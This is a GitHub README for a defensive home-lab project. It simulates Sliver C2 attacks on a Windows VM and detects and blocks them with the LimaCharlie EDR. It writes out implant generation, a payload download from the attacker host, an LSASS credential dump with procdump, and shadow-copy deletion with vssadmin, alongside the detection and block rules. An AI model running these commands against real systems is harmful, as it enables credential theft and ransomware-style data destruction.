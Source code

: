 <h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attacks are monitored, detected and blocked using the Endpoint Detection and Response agent called LimaCharlie. Special Thanks to Eric Capuano.<br />


<h2>Languages and Utilities Used</h2>

- <b>Windows/Linux Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>
- <b>Python</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack & Monitor</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe

7.  Now that the payload has been downloaded on the Windows Machine, we can execute the Command
    and Control Session as an attacker through the Linux Machine.
    
   a.  Using the SSH session on the Linux server We will relaunch Sliver with command --> sliver-server
   
   b.  Then we start the listener with -->http

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a84825cd-e9e8-4a03-9b60-08006dc91fff)

8.  Switching over to the Windows Machine, we then execute the payload with the following command using Admin Powershell Prompt:
    --> C:\Users\User\Downloads\<your_C2-implant>.exe
    Note that the established session is shown on the Linux Machine as shown below.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6c9c5a86-cfa2-431a-849a-1277643ca12a)

Various attacks can be done through the established session. However, we will proceed to monitoring and detecting this attack in
the Lima Charlie tool.

9.  We can now look for our attack in the Lima Charlie web application. Please note that Lima Charlie was configured after
    the establishment of the virtual machines. The detailed steps are in the link above.

    --> Sensor List
        --> Hostname(windev2305eval.localdomain)

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a7849e22-66e5-4caa-a8e5-988e51a4e759)


    From here we navigate to-->processes and we find our malware "MASSIVE_DEPRESSIVE.exe"
    Note that there is no green check mark indicating a signature for the malware. A lack of signature can indicate a malicious
    process.


  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/985161fa-1ac7-46d6-8db9-a11361fb13d6)


  Navigating just below Processes to --> Network we can see the malware and its source IP and other information.


  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/fd77e80b-4e11-4adf-a06a-296534ed5bfc)


  Below the Network we may go into -->File System and search for the malware's file path.


![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9631c089-114f-4ba9-9d1a-71fe5bd3a79a)


In the same left menu, we can click on Timeline and monitor near real-time telemetry of the host system.  We can find the
event and its processes and the time of its processes.


![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/dfffca45-e5a7-44be-ae0a-436923b90d1d)


_________________________________________________________________________________________________________________________________________________________

<p align="left"><b>Attack & Detection</b><br/>

Now we will attack the Windows VM and detect the attack with a detection rule.

1.  First we reestablish the Sliver malware's attack session with the Windows VM
    and look for the privileges we have on the Windows machine through the C2 agent.
    ---> use[session id]
         -->getprivs
      And we check for "SeDebugPrivilege" which allows for privilege escalation in attacks.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e34dfa4d-7b5b-4512-95b8-6826f36f8f8a)

2.  We will use an attack that threat actors use for stealing credentials from a system.
 Using the command -->procdump -n lsass.exe -s lsass.dmp
We can find the attack in the Timeline section in Lima Charlie by filtering Sensitive Process Access

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6a40730c-c45f-4ec5-9274-48ca26c92740)

3. Now we will write a detection rule through Lima Charlie.
   Clicking on the event opens an event panel with information.
   To enter a detection rule, we click on the box shown below
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5a58c133-5493-4b7e-84c5-a5bb4d81763e)

   In the "Detect" box we remove the previous detection contents from the box and entering our rule
   --> event: SENSITIVE_PROCESS_ACCESS
       op: ends with
       path: event/*/TARGET/FILE_PATH
       value: lsass.exe

       The above specifies detecting an event of SENSITIVE PROCESS ACCESS with the process having lsass.exe.


        In the "Respond" box we add --> - action: report
                                         name: LSASS access
   
 This will prompt Lima Charlie to provide a detection report upon detection. Click Save and name the rule.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6262f2c7-3cfa-47d2-9448-1c1ca642c8b5)

4.  We can now test our detection rule by returning to the Sliver server console, back into the C2 session, and rerunning the same
    procdump command as before.

    In Lima Charlie, we go back to sensors then Detections in the left side menu.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9686c222-967d-4536-a6bd-fa9be8c3c942)

    As seen above, the attack was detected!
____________________________________________________________________________________________________________________________________________________________________________

<p align="left"><b>Attack & Block</b><br/>
  Deletion of Volume Shadow Copies is a popular attack connected with ransomware.  In this section, we
 will perform the above mentioned attack and block it upon detection using Lima Charlie.

1.  First we restart our Sliver C2 session with the victim machine following the steps in the above sections.

2.  Run command -->shell
    Answer yes to question “This action is bad OPSEC, are you an adult?”

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/329ab9f8-9c82-4789-9fe1-062aa669021a)

3.  Run command -->vssadmin delete shadows /all

4.  Run command -->whoami

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6915f891-700b-4902-95d0-964faf27c7aa)

5.  Now we look into Lima Charlie Detections as before. Lima Charlie detects the attack through Sigma Rules.

   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/c24fc0c8-453e-40e3-8308-6dbc171a8ce6)

6.  We can view the event in the Timeline and view the pane on the right to access the rule options.

   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/2e890a52-217b-404d-8efb-e57f251d9f04)

7.  Writing D&R rules:
    In Respond Box Enter--> - action: report
                               name: vss_deletion_kill_it
                             - action: task
                               command:
                             - deny_tree
                             - <<routing/parent>>
    Name and Save the rule.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/c4e4e8ae-c9a7-4f86-a021-92ff14158510)


    Note that "action: report" generates the detection report and the "action: task" will deny the parent process or kill the execution
    of the attack.

8.  Test the block rule by going back to the Linux VM Sliver-server shell and repeating the command-->vssadmin delete shadows /all

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e201afbd-13b5-4e3f-86c4-5b7ae82825bb)

    Then we run our whoami command.
 
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e4c0e9d0-5f57-44b9-9385-6709dfae48b2)

   We can see that the shell was automatically terminated. The block rule was successful!



    
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
